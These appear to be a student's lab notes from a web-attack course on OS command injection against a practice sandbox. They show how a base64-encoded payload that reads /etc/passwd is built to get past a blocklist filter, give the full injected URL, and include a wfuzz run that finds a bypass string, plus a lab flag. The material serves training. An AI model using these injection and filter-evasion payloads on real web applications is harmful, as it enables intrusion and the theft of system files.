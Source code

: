 All we need to do is choose the payload we want, and echo it into the base64 binary on our attacking Kali Linux VM.

```bash
kali@kali:~$ echo "cat /etc/passwd" |base64
Y2F0IC9ldGMvcGFzc3dkCg==
```
Now that we have our base64-encoded payload, we begin our injection attempt with a semicolon and everything after is wrapped by backticks, which will also be piped and echoed to base64 -d, which in-turn executes _whatever is decoded_. This yields the following payload:

Initial Payload
```bash
;`echo "Y2F0IC9ldGMvcGFzc3dkCg=="|base64 -d`
```
After input into URL
```bash
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22|base64%20-d`
```
![[Pasted image 20241030152847.png]]
Great! Our base64 method has effectively mitigated any blocklisted strings sanitization.

In the next section, we will discuss how to work with scenarios where we can not visually observe the output of our command injection attempts (otherwise known as _blind_ OS command injection).


#### Labs
1.
![[Pasted image 20241030153355.png]]

```bash
# Encode a file to Base64
openssl base64 -in inputfile -out outputfile

# Decode a Base64 encoded file
openssl base64 -d -in encodedfile -out decodedfile
```


2.
![[Pasted image 20241030173638.png]]
`OS{blocklisted_exercise_flag}`
```bash
http://ci-sandbox/php/blocklisted_exercise.php?ip=127.0.0.1
```
![[Pasted image 20241030153617.png]]
wfuzz the parameter
#webfuzzing 
```bash
┌──(root💀gobots)-[30Oct2024 19:23:09]-[/home/kali/SUT/OSWA]
└─# wfuzz -c -z file,/home/kali/SUT/OSWA/command_injection_custom.txt --hc 404 --hh 1156 http://ci-sandbox:80/php/blocklisted_exercise.php?ip=127.0.0.1FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://ci-sandbox:80/php/blocklisted_exercise.php?ip=127.0.0.1FUZZ
Total requests: 22

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                   
=====================================================================

000000006:   200        68 L     121 W      1175 Ch     "i$()d"                                                                                         
```